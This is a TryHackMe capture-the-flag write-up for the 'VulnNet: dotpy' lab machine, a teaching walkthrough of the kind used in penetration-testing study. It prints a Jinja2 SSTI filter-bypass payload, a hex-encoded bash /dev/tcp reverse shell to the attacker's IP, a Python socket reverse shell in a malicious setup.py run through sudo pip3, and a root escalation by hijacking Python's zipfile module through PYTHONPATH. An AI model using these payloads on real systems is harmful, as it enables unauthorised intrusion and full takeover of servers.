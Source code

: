 ```yaml
---
title: "VulnNet: dotpy TryHackMe"
layout: post
date: 2023-09-20 19:00
tag: 
- TryHackMe
- Pentesting
- VulnNet
- Linux
- SSTI
- Meduim
- Python
- Hijacking
image: https://tryhackme-images.s3.amazonaws.com/room-icons/d0b3851085d530abbff79210cea04b5d.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

This machine is a python focused machine that was designed to be a bit more challenging but without anything too complicated. It requires to not only find a vulnerable endpoint but also bypass its security protection. We should also pay attention to the output the website gives us.

---

# Nmap

```bash
nmap -A -T4 10.10.113.156
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 10:51 +01
Nmap scan report for 10.10.113.156
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.113.156:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
```

I only have one open port which contains a login page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105356.png>)

Firstly, I created an account called test :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105644.png>)

Then I am in I see dashboard in front of me, I checked all its options but nothing seemed suspicious :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105742.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110548.png>)

While I was looking for a venerable point to exploit, I found that when I go to some endpoint that doesn't exist, the name of the directory is reflected on the error page, so I thought directly about XSS and SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110828.png>)

And yes is is really vulnerable to SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110759.png>)

I noticed that there is a filtering on the input provided by the user :

{% raw %}
```js
{{self.__init__.__globals__.__builtins__.__import__("os").popen("id").read()}}
```
{% endraw %}

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106111411.png>)

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

After a lot of tries I found the right payload :

{% raw %}
```js
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
{% endraw %}

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106113521.png>)

Now I will try to get a reverse shell :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114320.png>)

{% raw %}
```js
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x62\x61\x73\x68\x20\x2d\x63\x20\x27\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x30\x2e\x39\x2e\x31\x2e\x31\x31\x37\x2f\x39\x39\x39\x39\x20\x30\x3e\x26\x31\x27')|attr('read')()}}
```
{% endraw %}

And I am in as web user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114301.png>)

# web -> system-adm

Checking the privileges of our current user we see that we can run pip3 as `system-adm` user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121552.png>)

[https://gtfobins.github.io/gtfobins/pip](https://gtfobins.github.io/gtfobins/pip)

I created a setup.py file that contains the content bellow and uploaded to the remote machine :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.117",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Voilà I got a shell as `system-adm` user : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122922.png>)

Now I can read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122439.png>)

# PE

Running sudo -l again, it shows that we can run change the PYTHONPATH variable and run the `/opt/backup.py` owned by root : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122017.png>)

```python
from datetime import datetime
from pathlib import Path
import zipfile

OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY
object_to_backup_path = Path(OBJECT_TO_BACKUP)
backup_directory_path = Path(BACKUP_DIRECTORY)
assert object_to_backup_path.exists()  # Validate the object we are about to backup exists before we continue
# Validate the backup directory exists and create if required
backup_directory_path.mkdir(parents=True, exist_ok=True)
# Get the amount of past backup zips in the backup directory already
existing_backups = [
    x for x in backup_directory_path.iterdir()
    if x.is_file() and x.suffix == '.zip' and x.name.startswith('backup-')
]
# Enforce max backups and delete oldest if there will be too many after the new backup
oldest_to_newest_backup_by_name = list(sorted(existing_backups, key=lambda f: f.name))
while len(oldest_to_newest_backup_by_name) >= MAX_BACKUP_AMOUNT:  # >= because we will have another soon
    backup_to_delete = oldest_to_newest_backup_by_name.pop(0)
    backup_to_delete.unlink()
# Create zip file (for both file and folder options)
backup_file_name = f'backup-{datetime.now().strftime("%Y%m%d%H%M%S")}-{object_to_backup_path.name}.zip'
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()
```

Analyzing the source code of the file, we see that it imports the zipfile python library, so I directly thought about python library hijacking.

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122351.png>)

I created a malicious zipfile in /tmp which spawns a root shell and I made it executable :

```python
import os
os.system('/bin/bash')
```

The I changed the PYTHONPATH to point on the /tmp folder :

```bash
chmod +x zipfile.py
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

BOOM I got a shell as root :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121827.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>